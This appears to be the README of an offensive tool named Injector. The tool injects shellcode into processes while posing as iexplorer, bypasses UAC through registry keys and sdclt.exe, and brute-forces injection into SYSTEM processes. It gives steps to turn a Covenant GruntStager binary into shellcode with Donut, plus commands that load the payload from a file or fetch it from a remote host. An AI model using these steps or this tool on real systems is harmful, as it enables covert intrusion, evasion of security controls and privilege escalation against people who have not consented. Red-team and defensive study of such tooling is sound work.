 # Injector

Injects shellcode into memory, tries to bypass UAC, and automatically tries to escalate to system

## Credits
This project is built upon the shoulders of giants:

@_RastaMouse -> Their work on TikiTorch and shell injection formed the groundwork for how the injector operates

@Cobbr_IO -> For the SharpSploit and Covenant projects

@TheRealWover -> For the Donut library and project


## PayLoad Creation (ShellcodeCreate.py)
Installation:
``` pip3 install donut-shellcode ```

Flags:
```
python3 ShellcodeCreate.py -h                           
usage: ShellcodeCreate.py [-h] [-f FILENAME] [-o OUTPUT]

arguments:
  -h, --help            show this help message and exit
  -f FILENAME, --filename FILENAME
                        input file
  -o OUTPUT, --output OUTPUT
                        output file
```
Step1: Download the relevant GruntStager binary from covenant
Step2: Generate Payload
```
python3 ShellcodeCreate.py -f GruntStager.exe -opayload.txt
```

## Injector.exe

```
Flags:
-w  <IP Address to Payload.txt>

-f <full path to payload.txt>

Injector.exe -f /path/to/payload.txt

Injector.exe -w http://10.10.10.123:8080/payload.txt
```

### Workflow
1. Identifies current user and injects payload under applicable explorer process (pretending to be iexplorer)
2. If user is local admin performs UAC bypass using Reg Keys and sdclt.exe
3. Attempts to bruteforce injection under System process (resulting in system level payload being exectued) (pretending to be iexplorer)


